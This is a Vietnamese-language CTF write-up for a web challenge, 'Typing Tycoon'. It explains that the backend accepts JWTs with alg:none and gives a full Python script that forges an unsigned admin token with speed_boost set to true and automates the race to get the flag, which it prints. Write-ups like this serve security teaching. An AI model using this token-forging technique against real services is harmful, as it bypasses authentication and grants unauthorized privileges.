

# Typing Tycoon Write-up

**Category:** Web  
**Difficulty:** Medium  
**Flag:** `apoorvctf{typ1ng_f4st3r_th4n_sh3ll_1nj3ct10n}`

## Overview

Challenge này là một bản clone của **TypeRacer**. Người chơi đua với 3 bot AI là **Marc, Pecco, Fabio**. Bình thường không thể thắng vì bot luôn đi nhanh hơn người chơi. Hướng giải đúng là khai thác lỗi **JWT `alg: none`** để sửa claim `speed_boost` thành `true`, làm bot chậm lại gần như đứng yên.

---

## Phân tích ban đầu

Khi bấm **Start Race**, frontend gọi backend qua các endpoint chính sau:

- `POST /api/v1/race/start` — bắt đầu race, trả về `token`, `text`, `race_id`
- `POST /api/v1/race/sync` — đồng bộ tiến độ cuộc đua
- `GET /api/v1/stats?id=N` — endpoint thống kê, nhìn giống SQLi nhưng thực ra là mồi nhử

Từ `/api/v1/race/start`, ta nhận được một JWT có payload kiểu:

```json
{
  "role": "user",
  "speed_boost": false,
  "sub": "racer_XXXXX"
}
```

Điểm đáng chú ý nhất là claim `speed_boost: false`. Đây là dấu hiệu cho thấy nếu sửa thành `true` thì có thể thay đổi cơ chế tốc độ trong game.

---

## Red herring: SQL Injection giả

Endpoint `/api/v1/stats?id=` trả về lỗi SQLite và còn hiện cả câu query, khiến người chơi dễ bị kéo sang hướng **SQL Injection**. Ngoài ra còn có comment HTML gợi ý tới `/tmp/bot_multiplier.conf`.

Tuy nhiên, phần này không khai thác được:

- hoặc lỗi chỉ là giả lập
- hoặc câu query đã được parameterized

Vì vậy hướng đúng không phải SQLi, mà là JWT.

---

## Lỗ hổng chính: JWT `alg: none`

JWT gốc dùng `HS256`, nhưng backend chấp nhận cả token với `alg: none`, tức là **không xác minh chữ ký**.

Ta có thể forge một token mới với header:

```json
{"alg":"none","typ":"JWT"}
```

và payload:

```json
{
  "exp": 9999999999,
  "role": "admin",
  "speed_boost": true,
  "sub": "racer_12345"
}
```

Thực tế nên **giữ nguyên `sub` từ token gốc** để tránh backend kiểm tra sai định danh người chơi.

JWT giả có dạng:

```text
base64url(header).base64url(payload).
```

Khi gửi token này lên `/api/v1/race/sync`, tốc độ bot giảm cực mạnh, từ hơn 100 WPM xuống chỉ còn khoảng `0.008 - 0.009` WPM.

---

## Phân tích request `/api/v1/race/sync`

Request thực tế có format như sau:

```http
POST /api/v1/race/sync HTTP/1.1
Authorization: Bearer <JWT>
Content-Type: application/json

{
  "race_id":"race_1773118018139739966_8708",
  "word":"that",
  "progress":0.008333333333333333,
  "wpm":1
}
```

Điều này cho thấy backend **không nhận cả danh sách từ**, mà nhận **từng từ một**.

Ý nghĩa các field:

- `race_id`: định danh cuộc đua hiện tại
- `word`: từ tiếp theo mà người chơi gõ
- `progress`: tiến độ hiện tại
- `wpm`: tốc độ gõ gửi lên server

Từ giá trị `0.008333333333333333`, có thể suy ra:

```text
0.008333333333333333 = 1 / 120
```

Nghĩa là đoạn văn có **120 từ**, và:

```text
progress = số từ đã nhập đúng / tổng số từ
```

Vì vậy chỉ cần:

1. lấy `text` từ `/race/start`
2. tách thành danh sách từ
3. gửi từng từ lên `/race/sync`
4. mỗi lần cập nhật `progress = i / total_words`

Do bot đã bị làm chậm bởi token giả, người chơi sẽ thắng dễ dàng.

---

## Exploit script

Chạy script dưới đây:

1. gọi `/api/v1/race/start`
2. lấy token gốc, `race_id`, `text`
3. decode token gốc để giữ nguyên `sub`
4. forge JWT mới với `alg:none` và `speed_boost:true`
5. gửi từng từ lên `/api/v1/race/sync`

```python
import requests
import base64
import json
import time

BASE = "http://chals1.apoorvctf.xyz:4001"

def b64url(data):
    raw = json.dumps(data, separators=(",", ":")).encode()
    return base64.urlsafe_b64encode(raw).decode().rstrip("=")

def decode_jwt_noverify(token):
    parts = token.split(".")
    payload = parts[1] + "=" * (-len(parts[1]) % 4)
    return json.loads(base64.urlsafe_b64decode(payload).decode())

def forge_jwt(sub):
    header = {"alg": "none", "typ": "JWT"}
    payload = {
        "exp": 9999999999,
        "role": "admin",
        "speed_boost": True,
        "sub": sub
    }
    return f"{b64url(header)}.{b64url(payload)}."

# 1) start race
r = requests.post(f"{BASE}/api/v1/race/start")
data = r.json()

orig_token = data["token"]
race_id = data["race_id"]
text = data["text"]

orig_payload = decode_jwt_noverify(orig_token)
sub = orig_payload.get("sub", "racer_12345")

forged_token = forge_jwt(sub)
headers = {
    "Authorization": f"Bearer {forged_token}",
    "Content-Type": "application/json"
}

words = text.split()
total = len(words)

print(f"[+] race_id = {race_id}")
print(f"[+] total words = {total}")
print(f"[+] forged token = {forged_token}")

# 2) sync từng từ
for i, word in enumerate(words, start=1):
    body = {
        "race_id": race_id,
        "word": word,
        "progress": i / total,
        "wpm": 150
    }

    resp = requests.post(f"{BASE}/api/v1/race/sync", headers=headers, json=body)
    try:
        j = resp.json()
    except:
        print(resp.text)
        break

    print(f"[{i}/{total}] word={word} status={j.get('status')} user_progress={j.get('user_progress')}")

    if "flag" in j:
        print("[FLAG]", j["flag"])
        break
    if j.get("status") in ("won", "finished", "completed"):
        print("[+] Finished:", j)

    time.sleep(0.02)
```
- Kết quả thu được:



---

## Flag

```text
apoorvctf{typ1ng_f4st3r_th4n_sh3ll_1nj3ct10n}
```

---

## Tại sao exploit hoạt động?

Server tin hoàn toàn vào JWT client gửi lên. Khi ta đổi `speed_boost` từ `false` sang `true` bằng token `alg:none`, backend áp dụng logic làm chậm bot mà không kiểm tra chữ ký token.

Sau đó, vì `/race/sync` chỉ cần từng từ và giá trị `progress` tương ứng, ta có thể tự động gửi toàn bộ đoạn text với tốc độ cao. Trong khi đó bot gần như không di chuyển, nên điều kiện thắng sẽ được kích hoạt và flag được trả về.

---

## Kết luận

Đây là một challenge khá hay vì cố tình gài người chơi vào hướng **SQLi** bằng lỗi SQLite nhìn rất thật, nhưng lỗ hổng thật lại nằm ở **JWT `alg:none`**.

### Key takeaways

- Luôn kiểm tra khả năng backend chấp nhận JWT `alg:none`
- Đọc kỹ các claim trong JWT, vì đó thường là gợi ý trực tiếp cho hướng khai thác
- Đừng quá sa đà vào những lỗ hổng nhìn quá “ngon” như SQLi nếu chưa chứng minh được chúng thật sự exploitable
- Với game hoặc challenge dạng race, đôi khi hướng đúng không phải tăng tốc bản thân mà là làm chậm đối thủ

